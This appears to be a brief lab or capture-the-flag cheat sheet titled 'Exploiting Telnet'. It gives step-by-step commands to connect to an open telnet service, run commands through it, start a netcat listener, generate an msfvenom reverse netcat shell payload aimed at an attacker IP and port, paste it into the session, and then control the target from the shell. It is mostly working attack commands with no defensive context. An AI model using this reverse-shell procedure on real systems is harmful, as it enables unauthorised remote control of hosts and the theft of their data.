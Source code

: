 # Exploiting Telnet

1. Connect 
```sh
telnet 10.10.10.10 2121
```

2. Send Commands
```sh
.RUN ping 10.10.10.10
Debug system commands using `tcpdump` in another tab
```sh
sudo tcpdump ip proto \\icmp -i eth0
```

3. Start Netcat Listener
```sh
nc -lvp 4444
```

4. Generate payload

`-p` - Payload
`lhost` - Attacker ip
`lport` - Attacker port
`R` - Raw Format

```sh
msfvenom -p cmd/unix/reverse_netcat lhost=10.10.10.10 lport=4444 R
```

5. Upload payload
This can be done by copy-pasting into the telnet terminal

6. Issue commands from `nc` session
In the same window you started the nc listener you can issue regular system commands such as `ls` and `cat`
